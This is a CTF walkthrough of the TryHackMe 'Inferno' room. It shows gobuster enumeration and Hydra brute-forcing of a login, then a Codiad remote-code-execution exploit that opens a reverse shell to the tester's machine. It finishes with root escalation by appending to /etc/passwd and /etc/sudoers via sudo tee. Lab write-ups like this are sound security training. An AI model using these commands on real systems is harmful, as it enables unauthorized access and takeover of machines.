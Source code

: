 # 69 - Inferno

Room Link --> [https://tryhackme.com/room/inferno](https://tryhackme.com/room/inferno)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.103.251/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/inferno
```
{% endcode %}

We have an authentication page

<figure><img src=".gitbook/assets/image (463).png" alt=""><figcaption></figcaption></figure>

#### Bruteforce with Hydra

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

`admin : dante1` .

Logged in&#x20;

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

We search Google for any exploit since we are authenticated as admin user and found: this [repo](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)

So because we are authenticating twice, we use the cmd:

{% code overflow="wrap" lineNumbers="true" %}
```
python2.7 exploit.py http://admin:dante1@10.10.103.251/inferno/ admin dante1 10.18.88.214 9001 linux
```
{% endcode %}

And got shell

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a .Download.dat file in the /home/dante dir, contains some cipher text.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got an SSH credentials: `dante : V1rg1l10h3lpm3`&#x20;

And we are logged in.

### Priv Esc

`sudo -l` - we can run tee as root.

There’s a binary available to run it as sudo. “**tee”** reads from standard input and write to standard output and files. So, we can edit any configuration file to gain root shell

We can use tee to add config to files.

#### /etc/passwd file

Lets add a new root user to /etc/passwd file

{% code overflow="wrap" %}
```bash
dante@Inferno:~$ LFILE=/etc/passwd

dante@Inferno:~$ echo "dking:$(openssl passwd -6 -salt noraj password):0:0:noraj:/root:/bin/bash" | sudo tee -a "$LFILE"

dante@Inferno:~$ su dking
```
{% endcode %}

And we are root.

Or

#### Sudoers file

We can also add dante to the sudoers file to execute all sudo cmds.

```bash
echo "dante ALL=(root) ALL" | sudo tee -a /etc/sudoers o tee -a /etc/sudoers
```

Done!

